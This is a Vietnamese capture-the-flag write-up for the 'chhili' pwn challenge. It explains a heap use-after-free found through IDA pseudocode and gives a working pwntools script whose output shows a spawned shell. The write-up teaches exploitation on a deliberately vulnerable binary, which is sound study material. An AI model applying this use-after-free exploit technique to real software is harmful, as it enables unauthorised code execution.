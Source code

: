 # Chhili
## Reverse
```sh
zir@ubuntu:~/fword$ file chhili
chhili: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c4dea7e3aee78d8ebe2eb75f64baba1c51a70e29, for GNU/Linux 3.2.0, not stripped

```
## Checksec
Bài này bật full các cơ chế bảo mật cơ bản.
```sh
pwndbg> checksec
[*] '/bin/dash'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

# Bug
### Thông qua IDA thì chương trình sẽ có 1 số hàm như sau:
* init()
* menu()
* create()
* delete()
* edit()
* get_shell()
* choice()
* main()

Pseudo code hàm create của file 
```sh
__int64 create()
{
  __int64 result; // rax
  _DWORD nbytes[3]; // [rsp+4h] [rbp-9Ch] BYREF
  char buf[136]; // [rsp+10h] [rbp-90h] BYREF
  unsigned __int64 v3; // [rsp+98h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  *(_QWORD *)&nbytes[1] = malloc(0x10uLL);
  puts("size : ");
  printf(">> ");
  __isoc99_scanf("%d", nbytes);
  if ( nbytes[0] > 0 && nbytes[0] <= 127 )
  {
    LODWORD(mySize) = nbytes[0];
    puts("data : ");
    printf(">> ");
    read(0, buf, nbytes[0]);
    **(_QWORD **)&nbytes[1] = malloc(nbytes[0]);
    *(_QWORD *)(*(_QWORD *)&nbytes[1] + 8LL) = malloc(0x10uLL);
    strcpy(**(char ***)&nbytes[1], buf);
  }
  result = *(_QWORD *)&nbytes[1];
  myChunk = *(void **)&nbytes[1];
  return result;
}
```

Cấp phát 3 chunk với 2 chunk có kích thước cố định
```sh
myChunk -----> chunk1
                 |
                 -----> chunk2 (input size từ người dùng)
                 |
                 -----> chunk3 (giá trị == "admin" sẽ lấy được shell)
```
Đây là hàm gây ra lỗi UAF vì chỉ free myChunk nhưng không huỷ liên kết mà myChunk trỏ đến

```sh
void delete()
{
  if ( myChunk )
  {
    free(*(void **)myChunk);
    free(myChunk);
  }
}
```
Chỉnh sửa nội dung thông qua biến myChunk, nó có thể ghi đè lên địa chỉ mà myChunk trỏ tới lúc trước khi free và sau kh free

```sh
ssize_t edit()
{
  ssize_t result; // rax

  result = *(_QWORD *)myChunk;
  if ( *(_QWORD *)myChunk )
  {
    puts("data : ");
    printf(">> ");
    return read(0, *(void **)myChunk, (unsigned int)mySize);
  }
  return result;
}
```
Nếu Chunk thứ 3 == "admin" thì chương trình sẽ gọi shell

```sh
int get_shell()
{
  if ( !myChunk || !*((_QWORD *)myChunk + 1) )
    return puts("You don't have any role");
  if ( !strncmp(*((const char **)myChunk + 1), "admin", 5uLL) )
    return system("/bin/sh");
  return puts("You don't have the permission to get a shell");
}
```

## Mục tiêu của mình sẽ tập trung ghi dè được Chunk thứ 3 thành giá trị "admin"

## Solution
Thực hiện exploit theo tư tưởng sau
* create 1 chunk với size == 16
* free
* edit -> Nhập "admin"
* create 1 chunk với 1 size > 16, chọn size == 66
* get_shell

## Exploit

```python
from pwn import * 
s = process("./chhili")

# tao 1 chunk 
s.sendline("1")
s.sendline("8")
s.sendline("afdsfds")

# free no di
s.sendline("2")
# uaf thay doi data thanh admin
s.sendline("3")
s.send("admin\x00")

# tao 1 chunk moi voi phan admin la phan quyen khi dung uaf
s.sendline("1")
s.sendline("32")
s.sendline("aziristhebestChamp")

# get_shell
s.sendline("4")
```

Run file để lấy shell
```sh
zir@ubuntu:~/fword$ python solve_chhili.py
[+] Starting local process './chhili': pid 3928
[*] Switching to interactive mode
Select an action
(1) malloc
(2) free
(3) edit
(4) get shell
(5) exit
>> size : 
>> data : 
>> Select an action
(1) malloc
(2) free
(3) edit
(4) get shell
(5) exit
>> Select an action
(1) malloc
(2) free
(3) edit
(4) get shell
(5) exit
>> data : 
>> Select an action
(1) malloc
(2) free
(3) edit
(4) get shell
(5) exit
>> size : 
>> data : 
>> Select an action
(1) malloc
(2) free
(3) edit
(4) get shell
(5) exit
>> $ 
$ whoami
zir   <--- Get shell>
$  
```